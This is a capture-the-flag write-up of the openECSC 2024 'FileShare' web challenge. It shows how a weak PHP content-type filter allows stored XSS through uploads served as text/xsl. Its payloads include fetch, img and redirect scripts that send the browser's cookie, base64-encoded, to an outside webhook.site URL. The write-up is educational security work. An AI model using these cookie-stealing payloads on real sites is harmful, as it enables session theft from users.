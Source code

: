 ```yaml
---
title: FileShare - openECSC 2024
date: 2025-01-18 11:00:00
tags: [web, php]
draft: false
heroImage: ./assets/openECSC.png
---
```


# FileShare - openECSC 2024

```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```
attatchment: fileshare.zip
author: Xato

## Initial details
We get the source code included in this challenge, and a shared instance.
The language used for the website is php, and in the Dockerfile there is a headless browser running in the background.

We can assume that we need to extract the flag from the headless browser, and that there is no RCE.

## Functionality
The website allows you to upload any file, download uploaded files from your session, list all the files in your session and send a file to support.

Support page will make the browser start a new session, set the flag as a cookie, and download the file that is sent. The backend checks if the fileId is valid before doing the requests. 

## Unusual code
After looking around the code for unusual code, this was the first thing that looked weird to me.
Why would one only filter out content-types with letter h in it.

```php
$type = $_FILES["file"]["type"];
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){
	$type = "text/plain";
}
```

Next is to see how this is used later in the download process.

```php
$path = "/uploads/$id";
header('Content-Type: '. $row['content_type']);
readfile($path);
```

It sets the `Content-Type` header to be what we can control during the upload. 

## How can we use content type to get XSS?
Firefox MDN Docs is very useful when you need to understand a concept within web.
A quick summary of what the Content-Type header does from [Content-Type docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)
```
In responses, the `Content-Type` header informs the client about the media type of the returned data.
```

We know that if we open a html file from a website, it will also execute the javascript on there.
Could there be any other file types that also allows for code execution. 

After doing a quick Google I found this research page:
https://github.com/BlackFan/content-type-research/blob/master/XSS.md

Testing out the POC on chromium browser for the content-type `text/xsl` seems to work.

## Crafting our payload

```php
$url = 'http://' . getenv('HEADLESS_HOST');
$chall_url = 'http://' . getenv('WEB_DOM');
$act1 = array('type' => 'request', 'url' => $chall_url);
$act2 = array('type' => 'set-cookie', 'name' => 'flag', 'value' => getenv('FLAG'));
$act3 = array('type' => 'request', 'url' => $chall_url . '/download.php?id=' . $fileid);
```

We know here that it sets the flag using set-cookie, and we need to get it back to us.

I usually do a fetch with base64 encoded of the cookie data the browser has stored for the page.

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
fetch('https://webhook.site/...?flag=' + btoa(window.cookie))
</script>
-----------------------------13099661571703276204376214506--
```

But this time it didn't seem to work?

Let's test out if it sends a request by using a img tag with source set to the webhook.

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
	<img src="https://webhook.site/..."></img>
</script>
-----------------------------13099661571703276204376214506--
```
![successful image request](./assets/fileshare-request-image.png)

Yes it worked!

Could it be that the browser does not have fetch or blocks network calls out?

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>window.location = "https://webhook.site/..."</script>
-----------------------------13099661571703276204376214506--
```

This should make the webpage navigate to the webhook website.

![successful navigate request](./assets/fileshare-request-navigate.png)

And that works!

## Payload

I used Firefox *edit and resend* to change the Content-Type and the content of the file being uploaded.
```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
document.location = "https://webhook.site/.../?flag=" + btoa(document.cookie);
</script>
-----------------------------13099661571703276204376214506--
```

The payload sets the Content-Type to text/xsl and the content is a script that redirects the page to our webhook with the cookie being encoded as base64 as a query parameter.